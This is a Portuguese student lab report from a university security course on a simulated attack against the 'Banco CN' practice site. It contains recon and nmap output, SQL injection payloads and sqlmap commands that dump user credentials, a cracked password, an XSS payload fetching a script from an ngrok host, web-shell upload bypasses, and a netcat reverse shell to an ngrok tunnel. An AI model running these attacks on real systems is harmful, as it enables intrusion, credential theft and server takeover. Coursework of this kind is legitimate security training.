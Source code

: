 # Relatório do Ataque ao Banco CN

Esse é um relatório de um ataque ao Banco CN, que foi feito para a disciplina de Segurança da Informação, do curso de Ciência da Computação da Universidade Federal de Lavras.
O ataque foi feito em um ambiente controlado, com o objetivo de simular um ataque real, e assim, poder aprender mais sobre segurança da informação.

## Informações:

Email: <contato@bancocn.com>
Tel: +835 66 7070, se nao der certo 70 de novo
<emprestimos@bancocn.com>

<www.bancocn.com/admin>

### Uso de whois para descobrir mais ips

### ip da cloudFlare - waf00f - ve se tem firewall

bancocn.com has address 172.67.192.199
bancocn.com has address 104.21.52.8

### subdomínios

shop.bancocn.com.
172.18.100.7

www.bancocn.com.
172.67.192.199

www.bancocn.com.
104.21.52.8

### usando sudo nmap

PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
8443/tcp open  https-alt

### usando o sudo -O nmap para pegar o sistema operacional

Device type: bridge|general purpose|switch
Running (JUST GUESSING): Oracle VirtualBox (98%), QEMU (93%), Bay Networks embedded (88%)

### serviços totais

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Cloudflare http proxy
|_http-title: Did not follow redirect to http://www.bancocn.com/
|_http-server-header: cloudflare
443/tcp  open  ssl/https     cloudflare
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: cloudflare
8080/tcp open  http          Cloudflare http proxy
|_http-title: Did not follow redirect to http://www.bancocn.com/
|_http-server-header: cloudflare
8443/tcp open  ssl/https-alt cloudflare
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: cloudflare
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge|general purpose|switch
Running (JUST GUESSING): Oracle Virtualbox (98%), QEMU (93%), Bay Networks embedded (88%)
OS CPE: cpe:/o:oracle:virtualbox cpe:/a:qemu:qemu cpe:/h:baynetworks:baystack_450
Aggressive OS guesses: Oracle Virtualbox (98%), QEMU user mode network gateway (93%), Bay Networks BayStack 450 switch (software version 3.1.0.22) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

### Information Disclorsure

Apache/2.4.29 (Ubuntu) Server at www.bancocn.com Port 80

### Directory: http://www.bancocn.com/assets

## SQL injection

www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(login) from users
retorna: admin

www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(password) from users
retorna: 
7b71be0e85318117d2e514ce2a2e222c
(hash da senha - não consegue descriptografar, apenas com ataque bruto)

Por meio do hash killer
Senha é: senhafoda

Para automatizar, a gente pode usar o comando sqlmap

sqlmap -u "http://bancocn.com/cat.php?id=1" 

sqlmap -r header.txt -D bancocn -tables

sqlmap -r header.txt -D bancocn -T users --collumns

sqlmap -r header.txt -D bancocn -T users -C login, password --dump

sqlmap -r header.txt --dump-all

## Ataque XXS

python3 -m http.server
Mas  é melhor usar o site ngrok

Depois colocamos na url:
www.bancocn.com/cat.php?id=2'<script src="https://d97d-45-229-123-11.ngrok-free.app/script.js"></script>

## Fazendo upload de shell
Utilizando variaveis de extensão para passar pela verificação, exemplos:
.php7
.php5
.html.php
.jpg.php

http://www.bancocn.com/admin/uploads/shell.php7?cmd=ls

## Agora vamos conectar o servidor com a nossa maquina

Começamos com o comando:
nc -lvp 789 // no servidor do atacante
nc 127.0.0.1 789 -e /bin/bash // no servidor do atacado = executar o bash

### Usando o ngrok para fazer o tunelamento

./ngrok tcp 789

tcp://0.tcp.sa.ngrok.io:15096

Depois no url:
www.bancocn.com/admin/uploads/shell.php7?cmd=nc 0.tcp.sa.ngrok.io 14745 -e /bin/bash